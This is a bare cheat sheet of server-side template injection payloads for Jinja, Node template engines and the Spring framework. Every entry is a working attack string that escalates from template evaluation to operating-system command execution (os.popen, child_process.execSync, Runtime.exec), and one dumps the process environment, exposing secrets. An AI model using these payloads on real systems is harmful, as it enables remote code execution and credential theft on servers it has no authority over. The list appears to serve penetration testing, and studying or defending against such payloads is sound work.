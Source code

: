 ## Jinja

- **Using os.wrap_close**
  ```
  {{'_'.__class__.__base__.__subclasses__()}}
  {{'_'.__class__.__base__.__subclasses__()[<OS._WRAP_CLOSE>].__init__.__globals__['sys'].modules['os'].popen('id').read()}}
  ```

- **Using other parameters**
```
{% if session.update({request.args.key:self._TemplateReference__context.cycler.__init__.__globals__.os.popen(request.args.command).read()}) == 1 %}{% endif %}&command=id&key=payload
```

## Node

- **Method 1**
```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('id')")()}}
#{7*7}
#{JSON.stringify(this.constructor.constructor('return process.env')())}
#{this.constructor.constructor('return process.mainModule.require("child_process").execSync("id", { encoding: "utf8" })')()}
{{this.constructor.constructor("return global.process.mainModule.require('child_process').execSync('id')")()}}
```

## Java

- Spring framework
    - `*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}`
